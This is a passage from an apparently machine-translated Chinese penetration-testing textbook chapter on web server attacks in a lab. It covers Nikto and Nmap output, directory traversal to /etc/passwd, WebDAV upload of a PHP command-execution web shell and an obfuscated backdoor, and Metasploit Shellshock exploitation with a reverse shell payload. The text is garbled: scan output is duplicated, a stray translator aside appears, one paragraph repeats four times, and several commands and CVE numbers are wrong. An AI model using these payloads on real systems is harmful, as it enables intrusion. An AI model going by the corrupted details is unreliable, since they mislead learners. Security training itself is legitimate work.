OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 -3.13
# Nmap done at Feb 13 21:37:40 2019 - 1 IP address (1 host up)
scanned in 109.89 seconds
```

在上一个输出中开放的 TCP 端口有 80、443、3128、8080 和 10000。现在我们将使用 `Netcat` 和 Web 浏览器等工具访问这些端口中的每一个，并在探索过程中理解这些结果的含义。

## 手动 HTTP 请求

请记住，你可以使用 `Netcat` (`nc`) 尝试连接到开放的端口并手动获取横幅（banners），还可以与在端口上运行的服务进行交互。你已经在上一章中对 25 端口进行过这种操作，并学习了基础的 SMTP 协议命令。尝试同样的方法连接到 80 端口，然后尝试发送一个 HTTP 请求。

```
nc <IP> 80
```

要手动发送 GET 请求，请输入以下两行，每行输后按回车键。你需要第三次按回车以发送一个空行并完成请求。如果你打字太慢，请求可能会超时。

```
GET / HTTP/1.1
host: foo
```

之前的几行告诉服务器：“使用 1.1 版本的超文本传输协议获取文件系统的根目录 (/)”。如果你指定了 HTTP/1.1 协议版本，则需要 `host: foo` 这一行；你也可以发送一个带有 GET / 之后的请求，然后按回车。在真实的 Web 服务器上尝试这种操作没有害，因为你所做的只是发送了一个针对 Web 内容的合法 GET 请求。完整的响应包含 HTML，我们现在对此并不感兴趣。这就是 HEAD 请求用用场，假设目标服务器支持它。你应该尝试向书本发送一个 HEAD 请求，如下：

```
HEAD / HTTP/1.1
host: foo
```

这里是头部，如果你成功发送了之前的 GET 或 HEAD 请求，你应该看到它们：

```
HTTP/1.1 200 OK
Date: Mon, 25 Feb 2019 11:51:15 GMT
Server: Apache/2.2.21 (Debian)
X-Powered-By: PHP/5.3.8-1+b1
Set-Cookie: 07bd4853668425bbd0fe1b304ee94-65c6aeae77f3be051bde61d4f71db26;expires=Mon, 11-Mar-2019 11:51:19 GMT; path=/
P3P: CP=DAO CSP CUR AMA DEVA OUR IND PHYZ UNC COM NAT DEN
PRE=
Set-Cookie: copperm_data=vTYoyTOzOI6IklIEIjtzoyMyIMtVhYJnZmMrYTk5MfwYN3Yn2AMQ2c0MbAJEnXSI7coYJoihbIs7At0X30D;expires=Wed, 27-Mar-2019 11:51:19 GMT; path=/
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
```

注意，你可以看到此响应中运行的 Web 服务器（Apache）的类型和版本。你还可以看到 PHP 及其对应的版本号。你应该立即使用 `Searchplo` 等工具检查服务器名称和版本是否存在已知的漏洞。一种常见的策略是接下来发送 OPTIONS 请求来了解服务器支持的技术。再次记住要包含第三个空行，否则 Web 服务器将等待你发送更多输入，而不会将请求视为完成，如下所示：

```
OPTIONS / HTTP/1.1
host : foo
```

之前的代码片段会导致服务器返回如下响应：

```
HTTP/1.1 200 OK
Date: Mon, 25 Feb 2019 11:58:04 GMT
Server: Apache/2.2.1 (Debian)
DAV: 1,2
DAV: <http://apache.com/dav/propset/fs/1>
MS-Author: DAV
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK
Content-Length: 0
Content-Type: http/unix-directory
```

这似乎允许许多 HTTP 方法，包括一个危险的方法 DELETE，我们可以从服务器上删除文件吗？服务器还返回了 `MS-Author: DAV` 头部。这与 `PROPFIND`、`PROPPATCH`、`COPY`、`MOVE`、`LOCK` 和 `UNLOCK` 方法一起表明了 WebDAV 的存在。注意此响应的 `Content-Length` 为零 (0)，因为只有头部而没有正文——我们没有向服务器请求任何资源，我们只是让它告诉根位置 (/) 支持哪些 OPTIONS。不同的位置支持不同的 OPTIONS，你可能想要调查比根位置 (/) 更多的资源。

> **提示** 你可以使用 `Netcat` 尝试向目前为止所示的请求发送更高级的 HTTP 请求。你可以尝试在请求中发送额外的头部并使用不同的方法，以查看服务器如何响应。你可能会看到它想要为每个请求设置 cookie（通过返回 `Set-Cookie` 头部）；你可以获取该 cookie 并在随后的请求中返回它。如果你能花一些时间以此方式进行实验，你无疑会对 HTTP 学到很多！

## 漏洞扫描

你可以继续使用 `Netcat` 手动探测弱点，也可以使用专门的工具来帮助你。手动探测漏洞将是一个枯燥且耗时的过程。已经开发了用于发现 Web 应用程序常见漏洞的工具，你应该结合手动技术使用这些工具。其中一个 Web 扫描器称为 `Nikto`，它包含在 Kali Linux 中。由 Chris David Lodge 编写，在今天具有实际用途。

> **提示** 养成检查以下命令的习惯：如果你习惯了这一点，而不是仅仅开始使用搜索引擎在网上寻找答案，那么依靠像 Stack Overflow（一个基于社区的问答论坛）这样的网站会更好，并且能够更有效地找到你问题的答案。这需要一些时间适应，但值得的！

```
+ Entry '/xmlrpc.php/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/admin/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-comment/reply/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-filter/tips/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-node/add/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-search/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-user/password/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-user/register/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-user/login/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

```
+ Entry '/q-user/logout/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

- `/robots.txt` contains 4 entries which should be manually viewed.
- OSVDB-637: Enumeration of users possible by requesting -username (responds with 'Forbidden for users', 'not found' for non-existent users).
- Apache/2.4.2 appears to be outdated (current is at least Apache/2.4.33). Apache 2.4.33 is < the latest for the 2.x branch.
- OSVDB-397: HTTP method "PUT" allows clients to save files on the web server.
- Retrieved header: A3Err0 (0x5562d125668)
- Retrieved-ms-author-via header: DAV
- Uncommon header: "ms-author-via" found, with contents: DAV
- Allowed HTTP Methods: OPTIONS, GET, HEAD, POST, DELETE, TRACE, PROPFIND, PROPPATCH, COPY, MOVE, UNLOCK
- OSVDB-5646: HTTP method 'Allow' (Header): 'DELETE' allows clients to remove files from the web server.
- OSVDB-5647: HTTP method "MOVE" allows clients to change file locations on the web server.
- WebDav enabled (PROPFIND COPY PROPPATCH LOCKED list as allowed)
- Uncommon header: "A3rr0-cve-2014-6278" found, with contents: true vulnerability (http://www.cmire.org/cgi-bin/cve.cgi?name=CVE-2014-6271).
- OSVDB-3268: Directory indexing found.
- OSVDB-3092: /web.config Apache config file is accessible.
- //: Appending / to directory indexing
- OSVDB-3268: Directory indexing found
- Apache on Red Hat Linux 9 reveals the root directory listing by default if there is no index page.
- OSVDB-5756: /k2e/: allows source code or directory listing, upgrade to v6.0 SP1 or higher: http://www.securityfocus.com/bid/2513.
- /phpinfo.php: Output from the phpinfo() function was found.
- /sqldump.php: Database SQL?
- OSVDB-3268: Directory indexing found.
- OSDB-12184: PHPBBSFAZ0-SC392-11d3-A9A4-C7B0C10000: PHP reveals potentially sensitive information via HTTP requests that contain specific QUERY strings.


- OSDB-119: `/PageServices`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-119: `/wp-cs-dump`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-3092: `/admin/`: 这可能很有趣...
- OSDB-3268: `/html/`: 发现目录索引。
- OSDB-3092: `/this/`: 这可能很有趣...
- OSDB-3092: `/includes/`: 这可能很有趣...
- OSDB-3268: `/logs/`: 发现目录索引。
- OSDB-3092: `/misc/`: 这可能很有趣...
- OSDB-3092: `/admin/index.php`: 这可能很有趣... 在未知扫描器的 Web 日志中出现过。
- OSDB-3233: `/cgi/printenv`: Apache 2.0 默认脚本可执行并包含环境变量。应删除所有默认脚本。它可能允许 XSS 类型的攻击。http://www.securityfocus.com/bid/2513.
- OSDB-3233: `/cgi/printenv`: Apache 2.0 默认脚本可执行并包含环境变量。应删除所有默认脚本。它可能允许 XSS 类型的攻击。http://www.securityfocus.com/bid/2513.
- `/phpinfo.php`: 发现了 `phpinfo()` 函数的输出。
- `/sqldump.php`: 数据库 SQL?
- OSVDB-3268: 发现目录索引。
- OSDB-12184: PHPBBSFAZ0-SC392-11d3-A9A4-C7B0C10000: PHP 通过包含特定查询字符串的 HTTP 请求暴露潜在的敏感信息。
- OSDB-119: `/PageServices`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-119: `/wp-cs-dump`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-3092: `/admin/`: 这可能很有趣...
- OSDB-3268: `/html/`: 发现目录索引。
- OSDB-3092: `/this/`: 这可能很有趣...
- OSDB-3092: `/includes/`: 这可能很有趣...
- OSDB-3268: `/logs/`: 发现目录索引。
- OSDB-3092: `/misc/`: 这可能很有趣...
- OSDB-3092: `/admin/index.php`: 这可能很有趣... 在未知扫描器的 Web 日志中出现过。
- OSDB-3233: `/cgi/printenv`: Apache 2.0 默认脚本可执行并包含环境变量。应删除所有默认脚本。它可能允许 XSS 类型的攻击。http://www.securityfocus.com/bid/2513.

(Wait, 我需要重新翻译您提供的目标文本)

```
+ Entry '/xmlrpc.php/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/admin/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-comment/reply/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-filter/tips/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-node/add/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-search/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-user/password/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-user/register/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-user/login/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

```
+ Entry '/q-user/logout/' 在 robots.txt 返回了非禁止或重定向 HTTP 码 (200)
```

- `/robots.txt` 包含 4 个项目，需要手动查看。
- OSVDB-637: 通过请求 `-username` 可以进行用户枚举（对于用户返回 'Forbidden for users'，对于不存在的用户返回 'not found'）。
- Apache/2.4.2 似乎已过期（当前至少为 Apache/2.4.33）。Apache 2.4.33 低于 2.x 分支的最新版本。
- OSVDB-397: HTTP 方法 "PUT" 允许客户端在 Web 服务器上保存文件。
- 获取的标头：`A3Err0` (0x5562d125668)
- 获取的 `ms-author-via` 标头：DAV
- 不常见的标头：发现 "ms-author-via"，内容为：DAV
- 允许 HTTP 方法：OPTIONS, GET, HEAD, POST, DELETE, TRACE, PROFFIND, PROPPATCH, COPY, MOVE, UNLOCK
- OSVDB-5646: HTTP 方法 'Allow' (标头)：'DELETE' 允许客户端从 Web 服务器上删除文件。
- OSVDB-5647: HTTP 方法 "MOVE" 允许客户端更改 Web 服务器上的文件位置。
- WebDav 已启用（允许 PROFFIND COPY PROPPATCH LOCKED list）
- 不常见的标头：发现 "A3rr0-cve-2014-6278"，内容为：存在漏洞 (http://www.cmire.org/cgi-bin/cve.cgi?name=CVE-2014-6271)。
- OSVDB-3268: 发现目录索引。
- OSVDB-3092: `/web.config` Apache 配置文件可访问。
- `//`: 在目录索引后添加 /
- OSVDB-3268: 发现目录索引
- Red Hat Linux 9 Apache 在没有索引页的情况下默认会显示根目录列表。
- OSVDB-5756: `/k2e/`: 允许源代码或目录列表，升级到 v6.0 SP1 或更高版本：http://www.securityfocus.com/bid/2513。
- `/phpinfo.php`: 发现了 `phpinfo()` 函数的输出。
- `/sqldump.php`: 数据库 SQL?
- OSVDB-3268: 发现目录索引。
- OSDB-12184: PHPBBSFAZ0-SC392-11d3-A9A4-C7B0C10000: PHP 通过包含特定查询字符串的 HTTP 请求暴露潜在的敏感信息。
- OSDB-119: `/PageServices`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-119: `/wp-cs-dump`: 远程服务器可能通过 Web 发布允许目录列表，以便服务器通过“打开目录浏览”显示所有文件。应禁用 Web Publisher。http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269.
- OSDB-3092: `/admin/`: 这可能很有趣...
- OSDB-3268: `/html/`: 发现目录索引。
- OSDB-3092: `/this/`: 这可能很有趣...
- OSDB-3092: `/includes/`: 这可能很有趣...
- OSDB-3268: `/logs/`: 发现目录索引。
- OSDB-3092: `/misc/`: 这可能很有趣...
- OSDB-3092: `/admin/index.php`: 这可能很有趣... 在未知扫描器的 Web 日志中出现过。
- OSDB-3233: `/cgi/printenv`: Apache 2.0 默认脚本可执行并包含环境变量。应删除所有默认脚本。它可能允许 XSS 类型的攻击。http://www.securityfocus.com/bid/2513.

# 第 7 章 - 漏洞的广网

| 路径 | 描述 |
| :--- | :--- |
| `/modules/` | 在 `/apache/2.4.20 (debian)` 上具有列表的潜在感兴趣目录 |
| `/private/` | 潜在感兴趣的文件夹 (404 未授权) |
| `/scripts/` | 在 `/apache/2.4.20 (debian)` 上具有列表的潜在感兴趣目录 |
| `/sites/` | 在 `/apache/2.4.20 (debian)` 上具有列表的潜在感兴趣目录 |
| `/themes/` | 在 `/apache/2.4.20 (debian)` 上具有列表的潜在感兴趣目录 |

NSE: 脚本后扫描。
NSE: 正在运行级别 1 (共 1 个) 扫描。
于 12:51 启动 NSE
于 12:51 完成 NSE，耗时 0.00s
读取数据文件: `/usr/bin/../search/nmap`
Nmap 完成：在 2.26 秒内扫描了 1 个 IP 地址 (1 个主机)

你可能认为这看起来像是通过我们全面的 Nmap 扫描和运行 Nikto 收集的信息，但收集这些信息的方法是关键。猜测内容与列出目录内容大不相同——它能让你发现本不打算被发现的内容，而 NSE 脚本提供了一种用于列举目录和文件的合适方法。

## 目录爆破 (Directory Busting)

Dirb 是一个独立的工具，用于通过暴力破解发现所谓的隐藏内容，它可以在使用 `dirb http://TargetIP` 的情况下针对 80 端口的 Web 服务器进行运行。在理想情况下（从黑客的角度来看），Dirb 将输出一个你之前未发现的资源列表。在书籍实验环境中对 80 端口运行 Dirb 得到的结果与你已经使用的工具输出的相似，因此我们用文件名和目录名覆盖了该页面。请尝试这些工具以及其他执行类似任务的工具，例如 Gobuster (github.com/oj/gobuster)。你肯定会发现各种工具之间存在差异，某些工具针对不同的 Web 服务器技术可能比其他工具更有效。

一旦你获得了一份之前未发现的目录列表，就应该尝试浏览它们。此活动的目的是查看该目录是否暴露了任何本打算供公开访问的信息或接口。`/README` 文件是一个很好的起点。输出中还有一个 `/config/README` 和一个 `phpinfo.php` 文件，这些本应该是被遗留在生产环境或活动服务器上的。此类文件通常包含软件类型和版本号，你可以使用 Searchsploit 等工具利用它们搜索漏洞。

## 目录遍历漏洞 (Directory Traversal Vulnerabilities)

从最根本上，Web 服务器提供存储在计算机目录中的文件。服务器可能会使用像 `/etc/apache/www/` 这样的目录来存储文件。当用户使用如 `http://example.com/index.html` 的 URL 请求文件时，服务器使用本地路径 `/etc/apache/www/index.html` 来访问它。终端用户不应该知道 Web 服务器的底层目录结构，也不需要知道。Web 服务器不应允许访问 `/etc/apache/www/` 文件夹之外的文件，但在 Web 服务器软件中已经发现了允许这种操作的漏洞。

在第 4 章“源头信息汇集”中，我们向你介绍了通过一个简单的 URL 就在类 Unix 系统上暴露 `/etc/passwd` 文件的想法。实现此点的多种方法。其中一种方法是使用目录遍历。这种攻击听起来比实际要复杂得多。让我们来看这个问题的例子。

在你的本地机器上，更改命令行时你使用 `cd` 命令；例如，`cd /home/hacker/book/`，这将当前工作目录更改为 `/home/hacker/book`。现在，如果你想编辑 `/home/hacker` 中名为 `notes.txt` 的文件，而不是再次更改目录，你可能会输入 `../notes.txt`，因为 `../` 是当前目录的父目录。这在 Web 服务器上同样有效。由于页面和其他资源通常只是类 Unix 机器上目录中的文件，你可以利用这个快捷方式来访问从未打算通过 Web 服务器可见的文件。要开始测试此漏洞，你可以按照如下方式指定 URL：`http://example.com/../passwd`。

注意，如果你使用浏览器执行此项检查而不是使用 `cat`，你可能实际上不会将 `..` 发送到远程 Web 主机，因为浏览器在相应分析路径时会从你的请求中将其剔除。Web 服务器会将其解释为本地路径（或位置）`/etc/apache/www/../etc/passwd`，这等同于 `/etc/apache/etc/passwd`。该文件可能不存在，你可能会看到网站显示的错误信息。现在在 URL 中添加 `..`：`http://example.com/../../passwd`。

这一次 Web 服务器将此转换为本地路径 `/etc/passwd`。差一点，但没成功。再添加一个 `..`：`http://example.com/../../../etc/passwd`。

服务器现在尝试访问 `/etc/passwd` 文件，如果存在漏洞，它可能会向我们显示出来。这种攻击有许多变体，允许对路径名进行编码，但功能原理相似。在第 4 章中，我们看到了如何使用这样的 URL 访问非公开文件：`www.example.com/documentid=/etc/passwd`。

这对于一个网站可能有效，而对于另一个网站你可能需要遍历目录，例如：`www.example.com/documentid=../../etc/passwd`。

这对于一个网站可能有效，而对于另一个网站你可能需要遍历目录，例如：`www.example.com/documentid=../../etc/passwd`。

这对于一个网站可能有效，而对于另一个网站你可能需要遍历目录，例如：`www.example.com/documentid=../../etc/passwd`。


这对于一个网站可能有效，而对于另一个网站你可能需要遍历目录，例如：`www.example.com/documentid=../../etc/passwd`。

底层操作系统，Web 服务器，服务器端语言，以及任何运行在机器上的将引导你进入。你可能会在某些国家，例如：`www.example.com/documentid=../../etc/passwd`。你可能认为利用目录遍历等细微漏洞不会导致任何严重的法律后果。你是错误的，安全研究人员曾因为此类错误被捕，例如 Daniel Cuthbert 的案例。

## 上传文件

向远程服务器上传文件的常用方法是文件传输协议 (FTP)。FTP 现在使用较少，且有许多其他用于向 Web 服务器内容的方法。内容管理系统 (CMS) 是一种方法。它们包括 WordPress、Joomla、Drupal 等程序。CMS 本身就是应用程序，通常使用数据库存储内容。典型的公司可能会使用 CMS 对网站进行日常编辑和修改；例如，添加。

## WebDAV

如果你之前对实验环境进行了全面的 Nmap 扫描，你可能会注意到文件和目录列表。获取该列表是因为该特定的服务器提供了 WebDAV。如果你遇到支持 WebDAV 的服务器，可以尝试使用 Cadaver 等工具进行连接，它只不过是一个命令行 WebDAV 客户端。事实上，大多数操作系统都内置了 WebDAV 客户端。如果你使用 Microsoft Windows，例如，可以在命令行中使用 `net x: http://192.168.56.101/` 将 Web 服务器映射到你的文件系统作为网络驱动器。这对于 Web 发布者和黑客来说都很方便，因为我们通常可以在 Web 服务器上启用 WebDAV 并将其作为一种手段。要连接到实验环境，请使用 `cadaver <TargetIP>`。连接成功后，你将看到 `dav/>` 提示符，此时你可以发出 `ls` 等命令。现在你可以列出文件、下载文件并尝试向 Web 服务器上传自己的文件。我们的实验环境容易受到这种攻击，它可以用于实验。

首先，尝试创建一个基础 PHP 文件（有充分的证据表明该服务器正在使用你偏好的文本编辑器运行 PHP）。目前，只需将其命名为 `test.php` 即可。你只需要在该文件中放入如下的一行代码：

```php
<?php echo "Hello"; ?>
```

现在，你可以尝试在 `dav/>` 提示符下使用 `PUT` 命令上传此文件。（（你也可以使用 `del` 命令删除你的文件或其他文件）。你应该会看到以下输出：

```
Uploading test.php to '/test.php'
Progress: [====] 110.0% of 23 bytes succeeded.
```

现在，使用浏览器访问你上传的页面。该文件已上传到根目录，URL 简单为 `http://<TargetIP>/test.php`。你应该会在浏览器中看到显示的消息，这意味着服务器不仅允许你上传文件，而且还运行了你提供的 PHP 代码。如果你在客户的机器上发现这种操作是可能的，那么他们就有大麻烦了！

下一个尝试是上传一些更具野心的内容，例如 `<?php system($_GET['cmd']); ?>`。编辑你的原始文件，再次上传，然后通过 URL：`http://<TargetIP>/test.php?cmd=id` 查看结果。这尝试使用 PHP 在 Web 服务器上运行 UNIX/Linux 命令。全局变量 `$_GET` 用于引用通过 GET 请求提供的参数/值对。你可以看到这可能有用，但它也是危险的，因为现在任何人可以在 Web 服务器上运行命令，如图 7.3 所示。`id` 命令已经执行，输出已返回到你的浏览器。



图 7.3：通过 PHP 运行 id 命令

现在有一种使用 PHP 在该服务器上执行命令的方法。在过去，发现网站中存在此类文件漏洞的恶意黑客利用它们尽可能多地篡改网站，除了换取荣誉外别无。然而，由于有了在操作系统中执行命令的方法，可以实现比单纯篡改更多的操作。你不应该在客户系统上使用此类示例，因为它引入了他人发现你的 PHP 文件并滥用它的风险，因此务必确保此类尝试包含密码保护以检测滥用。此外，通过这种通过 URL 提供大量命令也是不方便的。如果我们在这个远程主机上只有一个 shell 的话。

## Weebly 的 Web Shell

你可以用 PHP 编写自己的 shell，但没有必要，因为别人已经完成了这些工作，尽管学习过程确实很有趣。你可以用于此目的工具之一是 Weebly。它创建一个混淆的 PHP 文件，当上传到远程主机时，会打开一个允许你运行命令的后门。在不带任何参数的情况下输入 weebly 运行程序将为你提供基础语法，如下：

```
+ weebly 3.7.0
! Error: too few arguments

+ 在目标上运行终端或命令
weebly <URL> [cmd]

+ 恢复现有会话
weebly session <path> [cmd]

+ 生成新 agent
weebly generate <password> <path>
```

首先，你需要使用 `generate` 命令生成一个新的 agent（在下例中提供了 `h4xor` 负载），以及你想要使用的文件名。如果不考虑隐蔽性，你可以使用命名规范的 `backdoor.php`，但如果你有偏好，可以使用更隐蔽的名字。你可能不想覆盖任何现有文件，因此在上传之前务必检查文件是否存在！

```
weebly generate h4xor backdoor.php
```

接下来，使用 Cadaver 上传你的 `backdoor.php` 文件，就像你处理 `test.php` 一样。一旦 agent 上传，你就可以使用 Weebly 与其通信。这次，你将 URL 和密码作为参数。

```
weebly http://<TargetIP>/backdoor.php h4xor
```

你应该看到类似下面的屏幕：

```
+ weebly 3.7.0

+ Target: 192.168.56.101
+ Session: /root/.weebly/sessions/192.168.56.101
```

你现在可以尝试 `id` 命令的结果：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 通用网关接口 (Common Gateway Interface)

通用网关接口 (CGI) 是一种允许服务器执行程序并在网页中显示其结果的技术。CGI 早于许多 Web 2.0 的概念，它是首批带来动态和交互式网页的技术之一。这项技术让访客簿（20 世纪 90 年代许多网站都有虚拟访客簿，游客可以在那里留下支持或其他留言）以及其他功能很大程度上通过运行脚本来实现。那时候的 Web 还是一个乱无章的混乱团。它非常糟糕，而且安全性完全是一个不存在的笑话。

与 PHP 等脚本语言（PHP 使用解释器运行其自身语言的代码）不同，CGI 是一种允许直接在操作系统的命令行中运行命令的技术——就像你以用户身份登录一样。这一特性使得 Perl 程序等可以从 Web 运行。CGI 早于现代服务器端语言如 PHP、ASP.NET 以及 Java 等语言，后者将所有内容都保持在容器（或虚拟机）中。

过去以及现在，仍然可能通过 HTTP 篡改向这些命令行程序传递额外的参数来滥用 CGI。目标通常是获取 root 用户账户权限并完全接管 Web 服务器，尽管攻击者对任何形式的访问都是欢迎的。通过 CGI，开发者可以为他们的网站添加功能和动态内容，这些内容接收来自服务器的参数或查询——我们现在认为是理所当然的，例如你的名字或语言偏好——或者实现基础搜索功能，在那时你需要 CGI。

尽管 CGI 许多许多缺陷且容易受到注入攻击，但它并没有完全消失——它仍然以各种形式存在，特别是在嵌入式系统中。例如，你的 ISP 提供的路由器可能使用 CGI 通过网络浏览器修改设置。Apache 有一个 `mod_cgi` 模块，启用后允许运行程序（通常称为脚本，尽管它们可以是功能完备的二进制程序）。CGI 也出现在嵌入式系统和应用程序中，在那里被用于节省像 PHP 和 Python 这样大型软件程序所需的存储空间。

如果你回看 Nmap 扫描结果或探测书籍实验室的 Web 服务，你会发现 `/cgi-bin/` 目录被识别，并带有许多可访问的脚本。这些脚本之一是 `printenv` 程序，它在执行 `/cgi-bin/printenv` 时运行。该程序打印系统环境变量，其本身就是一个低风险的信息泄露。环境中的信息可能包含敏感内容，如密码或系统配置变量，特别是在使用像 Docker 现代容器系统时。然而，另一个漏洞可以通过此脚本通过 cgi 访问，我们将对其进行探索。

> Docker (www.docker.com) 是运行应用程序的许多解决方案之一（这涉及到一个隔离环境——容器——它包含了所有必要的软件组件，以允许应用程序可靠地运行）。Docker 并不是像虚拟机那样将物理主机的硬件虚拟化，而是虚拟化其安装其下的操作系统。容器化应用程序无论运行在何种操作系统和其他基础设施上，始终都应该保持一致。

## Shellshock

Shellshock 是漏洞家族的名称，始于 CVE-2014-627。原始漏洞被修复了，但 Michael Zalewski 发现补丁并不充分，随后出现了一系列密切相关的错误。这些问题也通过独立的 CVE 标识符进行了记录。Shellshock 影响 GNU bash，它是大多数类 Unix 操作系统（包括 Linux）的默认 shell。这意味着该漏洞影响了全球范围内我们使用的所有系统，即我们用于运行程序的 bash 默认 shell 解释器。例如，在运行 CGI 程序时，该程序可能会通过 bash 执行。如果满足某些条件，该漏洞使得匿名用户能够完全控制远程系统。当 Shellshock 所利用的特定漏洞在 bash 中执行变量赋值时，就会出现。考虑以下命令：

```
a=1234
```

这将把值 1234 赋值给变量 `a`。然而，由于在使用特殊字符序列时变量赋值的方式存在 bug，值 1234 实际上可能会被 bash 当作命令执行。这在通过 CGI 接口运行 bash 程序时具有影响，因为 GET 请求中发送的变量可能会被用作命令执行。

> Bash 是一个命令解释器。它代表 Bourne-again shell（一个双关语），是 Bourne shell（更常用 shell 或 sh）的更新版本。Bourne shell 是 Stephen Bourne 在 1979 年为 UNIX 开发的。Bash 是 Brian Fox 为 GNU 项目编写的。如果你已经开始学习很多页面，你已经见过很多 GNU。GNU 是另一个递归缩写：GNU's not UNIX! 换句话说，GNU 软件是免费开源的，与专有软件相反。Bash 和 sh 具有某些相似之处，但它们是完全独立的程序。Shellshock 不影响 sh，只影响 bash。你可能在你的 Linux 设备上使用 bash。你可以通过运行 `printf shell` 命令来确认这一点。

Shellshock 是命令注入漏洞的示例，它影响直到 43-02 版本的 bash 版本。该漏洞有许多变体，使用不同的字符序列进行利用。可以通过搜索 CVE-2014-627 然后查看相关的漏洞和利用程序来找到这些步骤。Shellshock 并不严格局限于 Web 服务器——只要是使用 bash 执行程序并将用户提供的输入赋值为变量的地方，它就可能存在。尽管在 2014 年被发现，但你可能在嵌入式系统或内部网络上的未打补丁主机上错过它。早些使用 Nikto 时，它向我们报告的漏洞之一是：如果工具报告了漏洞，你应该始终手动确认并验证发现结果，以消除报告中的任何误报。检查 Shellshock 的方法之一是使用 Metasploit 和利用模块。

## 命令注入 (COMMAND INJECTION)

命令注入漏洞是致命的，因为它们允许攻击者在受影响机器的操作系统运行命令。如果这些命令以 root 用户身份运行，那么攻击者就对机器拥有完全控制权。如果命令是非 root 用户身份运行，仍然为目标计算机提供了一个滩头。命令注入不是单一漏洞，而是一整类漏洞。

CGI 程序充满了命令注入问题，因为它们的目的是在 OS 中运行命令，通常直接从用户那里获取输入。大多数开发者应该意识到，信任人类的输入是愚蠢的，在对输入进行任何其他操作之前，应该始终进行检查和清理。

特殊字符和编码是利用命令注入漏洞的重要部分，因为这些允许攻击者规避程序内置的检查、绕过应用程序防火墙，并导致解释器执行不该执行的操作。特殊字符，如 `; | & % [ ]\ `，很快会在你心中占据特殊位置，就像它们在别人心中一样。


# 使用 Metasploit 破解 Shellshock

现在我们将查看如何使用 Metasploit 破解受 Shellshock 影响的系统。之后将对利用程序进行更详细的检查，并将看到如何手动执行相同的攻击。启动 Metasploit (`msfconsole`) 并等待提示符出现，使用 `search shellshock` 命令。此搜索应该返回多个不同的模块，证明了 bash 利用的多样性。

## 第 7 章 漏洞的广网

我们现在使用的模块是 `apache_mod_cgi`。我们现在查看的漏洞是 `bash_env_exec`。关于为什么针对我们的实验室应该使用这个特定模块，将在稍后解释。要选择该模块，只需提供命令和该模块的完整路径：`/cgi-bin/printk`（Nikto 识别出的）。接下来，你需要指定一个负载（使用 `payloads`），例如 `linux/x86/shell_reverse_tcp`。这将向你的主机（Kali Linux 虚拟机）发送一个 shell，但要实现这一点，你需要指定正确的 IP 地址并设置 `LHOST` 和 `PORT=443`。确保你为你的 Kali Linux 虚拟机使用了正确的 IP 地址。当你检查了模块选项并确认负载无误后，使用 `exploit`。假设目标确实是实验室，应该打开一个成功的 shell。从那里，你将使用 `id` 和 `uname`。你会发现你不是 root 用户，因为该进程是以较低的权限运行的。许多服务以 root 用户身份运行。本章末尾将讨论提升权限的方法。

## 使用 cURL 和 Netcat 利用 Shellshock

你可以使用 Netcat 和 cURL 来利用 Shellshock 漏洞。我们现在使用这种方法来解释该漏洞的几点。记住，我们最初怀疑实验室 Web 服务器受到 Shellshock 攻击的原因是因为对我们来说存在 `/cgi-bin/printk` 路径。访问该路径（或使用 cURL 请求它，这可能提供更易读的结果）实际上通过 CGI（Apache 的 `mod_cgi` Metasploit 模块选择）在底层系统中执行了一个命令。该命令正在调用 `printenv`。你可以在 Kali Linux 机器上不带任何参数运行 `printenv`，它只会简单打印系统环境变量的名称和值。

